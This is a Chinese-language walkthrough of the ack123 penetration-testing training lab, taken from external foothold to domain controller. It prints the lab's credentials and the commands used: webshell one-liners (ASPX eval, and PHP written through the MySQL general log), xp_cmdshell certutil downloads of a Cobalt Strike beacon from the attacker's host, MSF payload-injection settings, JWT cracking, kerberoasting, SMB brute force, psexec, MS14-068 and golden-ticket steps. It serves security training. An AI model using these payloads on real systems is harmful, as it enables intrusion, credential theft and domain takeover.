







# 环境搭建

参考https://www.moonsec.com/3216.html

**主要考点：**

- 站库分离外网打点
- 过360全家桶
- 过windows defender
- 过火绒
- 内网漫游
- 多层网络渗透
- 横向渗透
- jwt token密钥破解
- 权限提升
- 域渗透
- phpmyadmin写shell
- sqlserver提权

ack123靶场是暗月渗透测试培训，九月出师的红队考核靶场。考核的内容是从外网打点到内网多层网络渗透到域的权限。

搭建成功后 可在每个c:/users/administrator 设置flag，通过获取五个个flag即可考核通过。

链接：https://pan.baidu.com/s/13g_1FFg-ZYYpBwkCvKyYWQ
提取码：7fkj

```
 12server-web1 
 本地管理员和账号
 administrator QWEasd.123
 www.ackmoon.com admin password-moon
 12server-web2
 本地管理员账号和密码 administrator QWEasd.999
 mysql root Qweasdzxc5
 域普通用户 web2 QWEasd.7788
 12server-data1
 本地管理员账号和密码 administrator QWEasd.789x
 sqlserver sa pass123@.com
 12server-data2
 本地管理员账号和密码 administrator QWEasd.3344
 16server-dc
 域管理员 administrator P@55w0rd!
```

拓扑结构


大概的拓扑结构就是这样，后续具体的IP可能与这个不同

另外因为没有去做frp映射到公网，外网就直接用桥接模式了，但是因为IP不同，需要修改一下啊data的地址

再配置一下hosts

```
ip www.ackmoon.com
```


在`C:\Hws.com\HwsHostMaster\wwwroot\www.ackmoon.com\web\HdhApp.config`的source ip替换成data1的ip，内网的不需要修改


因为病毒库被更新到最新了，所以这次打靶将免杀都给退了（可以把更新关了，2021年的病毒库原本是，网上大部分免杀应该都可以）

# 外网

## 信息收集


后台扫描发现了admin路由会跳转到/admin/login.aspx

默认密码登陆不进去，但是可以注册用户


登陆进去后看到了服务器的相关配置，并且还存在一个Ueditor1.4.3



这个版本是存在历史漏洞的


## GetShell

网上找一个poc

```
<form action="http://www.ackmoon.com/admin/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">

  <p>shell addr:<input type="text" name="source[]" /></p >

  <input type="submit" value="Submit" />

</form>
```

将aspx的一句话木马修改为jpg格式

```
<%@ Page Language="Jscript"%><%eval(Request.Item["888888"],"unsafe");%>
```

上传时的地址为`http://192.168.50.128:8083/aa.jpg?.aspx`，需要加上aspx扩展，才能将后缀改为aspx




成功连接蚁剑


## MSF上线

利用蚁剑的插件上线MSF


然后将会话转到CS上

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lhost 192.168.50.128     # 创建cs监听的地址
set lport 10011              # cs监听端口
set session 1
exploit
```


MSF可以直接提权到system


不知道为什么我的蚁剑一句话没有被杀，然后可以通过蚁剑的插件来上线CS，并且MSF的getsystem可以直接提权

正常的话，应该是需要做免杀然后上线CS的，直接的CS木马会被杀，因为这个靶场是21年的，但是我现在的病毒库是最新的，没有办法免杀上线，后续的话我就把杀毒软件都退了，主要是练习一下整个流程

派生会话到CS后，将进程迁移一下，提到CS后inject到其他system进程（ps查看）


后面我把杀毒软件关了，重新用CS马上线的，但是beacon里面的getsystem好像不太稳定

hashdump


Cobalt Strike来run mimikatz


因为是win2012 R2，禁止以明文形式保存密码，但是可以抓到NTLM hash


## 内网信息收集

在进程中看到了360全家桶和护卫神


```
上线后第一步，查看自己所获取的权限whoami。一般都是web权限，那么现在要做的就是收集信息提权
目标的进程       ----tasklist（查看有无防护软件）
目标网络            ----ipconfig /all
目标内网主机          ----arp -a（下一步渗透主机）
目标补丁            ----systeminfo（漏洞利用）---->漏洞检测使用msf：getsystem、post/multi/recon/local_exploit_suggester模块；Windows-Exploit-Suggester检测。
查看自启程序          ----wmic startup get caption,command（计划任务可以使用）
查看主机开机时间--net statistics workstation（看一下主机是否长期开机）
无引号提权       ----wmic service get name,displayname,pathname,startmode | findstr /i "Auto" |findstr /i /v "C:\Windows\\" | findstr /i /v """
查看目录权限      icacls "c:"
```


通过arp和网卡找到了另外一个网段，这里乱码了，可以修改一下chcp

```
chcp 65001
```

# 内网

## 上线mssql

在HdhApp.config中看到了数据库机器，并且看到了数据库账号密码


先上一个代理


成功连上了mssql


利用xp_cmdshell执行命令


在这台机器上开了火绒


直接用MDUT直接就连上


我看网上一些事用的certutil这个工具去下载的cs马，或者先下载一个loader.exe，再通过loader.exe执行shellcode

```
certutil –urlcache –f –split http://192.168.50.128:8083/beacon.exe C:\Users\MSSQLSERVER\beacon.exe

EXEC master..xp_cmdshell 'certutil –urlcache –f –split http://192.168.50.128:8083/beacon.exe C:\Users\MSSQLSERVER\beacon.exe';
```


这样能下载是因为这台机器本身也存在一张外网网卡

运行beacon.exe上线mssql


他是通过web1中转上线的

## 上线web2

通过fscan的扫描还得到了内网另外一台主机192.168.22.128





登陆的时候在数据包中看到了JWT的token


尝试爆破JWT密钥

```
python3 jwt_tool.py JWT_TOKEN -C -d rockyou.txt
```


这里选用的是kali自带的rockyou字典，这个字典比较全面

得到了JWT的密钥，但是这里居然不是伪造，看一些WP写的是根据如下这段响应可以推断出使用的phpstudy

```
Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
```

然后猜测出疑似使用的phpstudy v8.1 搭建，该版本 phpmyadmin 的路径为 url/phpmyadmin4.8.5，然后得到了phpmyadmin

并且用JWT的密钥登陆phpmyadmin，这里我是没想明白的，不过windows的机器用的apache确实可以想到phpstudy，至于phpmyadmin不知道可不可以用一个字典来爆破了

登陆phpmyadmin

```
root/Qweasdzxc5
```




禁止写文件，没办法用select into outfile写webshell了


在log变量中看到了phpstudy的位置，可以直接得到www目录的位置

```
#开启日志
set global general_log='on';
#设置日志位置为网站目录
set global general_log_file='C:\\phpstudy_pro\\WWW\\shell.php';
#传个一句话
select '<?php @eval($_POST["apple"]); ?>';
```


成功拿到shell


经过查看，这台机器并没有杀毒软件，直接上传CS马上线，仍然通过web1进行监听中转


成功上线，先把第二层的代理弄出来


## web2信息收集


并且找到了内网的另外一个网段10.10.10.138/24，并且DNS服务器的地址是10.10.10.135，这个应该是域控，域名为ack123.com

既然这个机器是域内机器，那就进行一波常规的信息收集，这是在网上嫖的信息收集的思路

```
ipconfig /all               ----->判断是否有主域，
nltest /domain_trusts           ----->查看是否有林域
net group "domain controllers" /domain  ----->查看主域是哪一台服务器
net time /domain            ----->快速定位域控ip，一般是dns、时间服务器：----接ping 

net group "domaincontrollers" /domain   ----->查看域控制器
net user /domain                ----->查看域内的组成员
net group "domain admins" /domain   ----->查看域内的管理员
net accounts /domain            ----->获取域密码强度信息

内网主机
    net view            ----->查看共享资料
        arp -a              ----->arp路由表
         ipconfig  /displaydns      ----->dns缓存


凭据收集
    logonpasswords          ----->cs模块mimikatz获取信息
    mimikatz kerberos::list /export ----->github上的kerberos
        寻找域控管理员的账号      ----->python3 tgsrepcrack.py /usr/share/wordlists/fasttrack.txt 1-40a10000-web2@mysql\~16server-dc1.ack123.com-ACK123.COM.kirbi
```




先用CS的mimikatz和hashdump跑一波


得到了web2机器的三个用户的hash，但是cmd5查域内用户的时候是一条付费记录，不过也相当于能解出来吧


## 获取DC密码

这里不知道是我环境问题还是什么，mimikatz并没有抓到域控相关信息，在进程中也没有看到和域管有关的信息，看了几篇文章，他们都是抓到了DC的账户，这里有几种方式

### 方法一

mimikatz直接抓到了域控的hash，直接用cmd5得到了域控的木马，不过这种方式我没有成功

这是跳跳糖一位师傅的截图


### 方法二

在web2上查看ack123.com注册的SPN，发现存在SPN

```
setspn -T ack123.com -q */*
```


接下来用mimikatz申请创建票据，票据为RC4加密，可以通过爆破的到服务对应用户的密码

```
mimikatz kerberos::ask /target:mysql/16server-dc1.ack123.com（mysql/16server-dc1.ack123.com是通过SPN服务查看的到的）
```

接下来查看并导出票据

```
mimikatz kerberos::list          #查看
mimikatz kerberos::list /export  #导出
```


将这个票据下载回来，使用kerberroast（https://github.com/nidem/kerberoast）配合kaili的fasttrack.txt字典爆破

```
python3 tgsrepcrack.py ./fasttrack.txt ./2-40a10000-12server-web2\$@mysql~16server-dc1.ack123.com-ACK123.COM.kirbi
```

命令行里面的`$`记得转移


### 方法三

因为扫到了445端口是开着的，并且知道了域控的账户为administrator，可以直接用smb爆破，字典选用的是kali的字典

```
use auxiliary/scanner/smb/smb_login
set rhosts 10.10.10.135
set smbuser administrator
set smbdomain ack123.com
set pass_file /usr/share/wordlists/fasttrack.txt
set threads 50
```


以上三种方法均是为了获取DC的密码，不过第一种不太现实，感觉在其他机器上不太容易抓到DC的Hash

## 域内横向

### PSEXEC

获取密码后就可以尝试psexec横向上线

首先在cs中使用net view进行存活主机探测


接下来在targets中就有了探测到的主机


选择psexec进行横向，然后在web2上新开一个监听（需要改成与域控一个网段）




当然也可以使用msf来进行smb登陆

```
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/bind_tcp
set rhost 10.10.10.135
set smbdomain ack123.com
set smbuser administrator
set smbpass P@55w0rd!
```

### IPC$

可以直接psexec肯定是最方便的，其实也可以使用ipc连接

```
net use \\10.10.10.135\ipc$ /user:administrator "P@55w0rd!"

上传cs木马: copy c:\users\public\beacon2.exe \\10.10.10.135\c$\users\public\beacon2.exe
执行命令:   wmic /node:10.10.10.135 /user:ack123\administrator /password:P@55w0rd! process call create "c:\users\public\beacon2.exe"
```

### MS14-068


在域控中其实是没有找到ms14-068的补丁的，所以按理说应该是可以直接通过ms14-068拿下域控

域成员密码是可以cmd5查出来的，不过要付费，应该是`QWEasd.7788`，域的sid可以通过mimikatz的到

也可以用msf


然后在mimikatz中导入

```
kerberos::clist "20231122193642_default_10.10.10.135_mit.kerberos.cca_245882.bin" /export /
```

接下来会生成一个kirbi文件

在获得的域成员的meterpreter中导入票据，就能提升为域管

```
kerberos_ticket_use /tmp/0-00000000-juan@krbtgt-DEMO.LOCAL.kirbi
```

大多数用的是exe这个工具

```
MS14-068.exe -u 域成员名@域名 -p 域成员密码 -s 域成员sid -d 域控制器地址

添加一个域管用户aaa：
net user aaa Qwe123... /add /domain
net group "Domain Admins" aaa /add /domain 
```

这段代码可以生成伪造的kerberos协议认证证书，在目标机器上利用mimikatz.exe将证书写入，从而提升为域管理员

接下来就可以使用命令了

```
dir \\主机名\c$			# 这样来列出c盘目录，需要使用主机名，而不是IP地址
```

## 权限维持

拿下域控后，看到了krbtgt的hash


除此之外，我们还可以得到域的SID，域名称，任意用户名都知道，可以做一个黄金票据来进行权限维持


```
SID: S-1-5-21-2015848930-1301831522-615504165-500
krbtgt: fb979da43f63a991f8f5599add59e01c
user: web2
domain: ack123.com
```


可以看到，黄金票据已经建立成功了


接下来在任意域成员机器上使用黄金票据


然后再次访问域文件


此时已是域管权限，可以创建一个新的域管用户


# 写在最后

很久没有接触这方面了，第一次打这种靶场，思路和手法都很生疏，中间有一部分写的感觉有点乱。

虽然没有去过免杀，但是对于一些其他的知识还是收获颇丰，最后可能是因为136那台机器没弄配置好，就没有去打data2靶机了，应用和打DC是一样的。

关于渗透方面，用mac还是不太方便，我还没有去调教windows虚拟机的，另外对于一些常用的工具还是要准备，比如说mimikatz.exe，还有一些shellcode加载器，mimikatz虽然在kali和cs里面集成了，但是有时候还是需要，比如说打ms14-068的时候，需要将mimikatz.exe上传。


参考链接：

https://www.moonsec.com/3216.html

https://www.haochen1204.com/2022/12/09/an-yue-ack123-ba-chang-da-ba-ji-lu/#toc-heading-2

https://tttang.com/archive/1347/#toc__1

https://www.freebuf.com/articles/web/284543.html

https://www.cnblogs.com/hellobao/articles/17247205.html

https://www.freebuf.com/sectool/252329.html